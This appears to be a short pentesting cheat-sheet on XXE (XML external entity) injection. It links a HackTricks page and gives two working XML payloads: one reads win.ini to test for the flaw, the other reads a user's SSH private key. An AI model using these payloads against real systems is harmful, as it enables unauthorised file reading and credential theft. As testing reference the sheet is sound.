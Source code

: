## XXE / XEE

https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity

Sample payload for testing whether it's possible

```bash
<?xml version = "1.0"?>
<!DOCTYPE root [<!ENTITY toreplace SYSTEM 'file:///c:/windows/win.ini'> ]>
<order>
    <quantity>1234</quantity>
    <item>&toreplace;</item>
    <address>1234533453</address>
</order>
```

## Common attack vectors

```bash
<?xml version = "1.0"?>
<!DOCTYPE root [<!ENTITY toreplace SYSTEM 'file:///c:/users/dave/.ssh/id_rsa'> ]>
<order>
    <quantity>1234</quantity>
    <item>&toreplace;</item>
    <address>1234533453</address>
</order>
```